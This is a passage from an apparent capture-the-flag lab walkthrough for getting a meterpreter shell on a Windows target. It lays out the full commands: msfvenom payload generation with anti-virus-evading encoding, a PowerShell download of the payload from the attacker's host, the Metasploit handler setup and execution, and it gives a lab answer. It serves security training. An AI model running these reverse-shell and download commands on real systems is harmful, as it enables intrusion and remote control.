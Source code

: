 To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.17.43 LPORT=4444 -f exe -o reverse_shell.exe`

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

<img width="1075" alt="16" src="https://user-images.githubusercontent.com/28839345/164770193-de7a83ea-9c88-4e64-9a0a-d9ab6eb5d410.png">

After creating this payload, download it to the machine using the same method in the previous step:

Go to the netcat listener and type the following command

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.17.43:8000/reverse_shell.exe','reverse_shell.exe')"`

<img width="1151" alt="17" src="https://user-images.githubusercontent.com/28839345/164770194-7cb56622-4f58-4fbb-ada1-57cf5d23a98c.png">

Before running the reverse_shell, ensure the handler is set up in metasploit:

Start metasploit by running the command `msfconsole`.

Then run the following commands  to receive the incoming connection from you reverse shell using the metasploit handler.

`use exploit/multi/handler`
`set PAYLOAD windows/meterpreter/reverse_tcp`
`set LHOST 10.10.17.43`
`set LPORT 4444 `
`run`

<img width="697" alt="18" src="https://user-images.githubusercontent.com/28839345/164770197-b6dd4f02-cef3-4494-a01e-af9415578bc4.png">


 Once this is running, enter this command to start the reverse shell.
 
 `Start-Process "reverse_shell.exe"`
 
<img width="985" alt="19" src="https://user-images.githubusercontent.com/28839345/164770199-b75b1ba8-8b04-469e-aa2a-2ed0f413117e.png">

<img width="581" alt="20" src="https://user-images.githubusercontent.com/28839345/164770200-603f5de5-5c37-4207-a2eb-8ffda2ec7ba4.png">
 
**What is the final size of the exe payload that you generated?**

73802

#### [Task 3] Privilege Escalation

Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
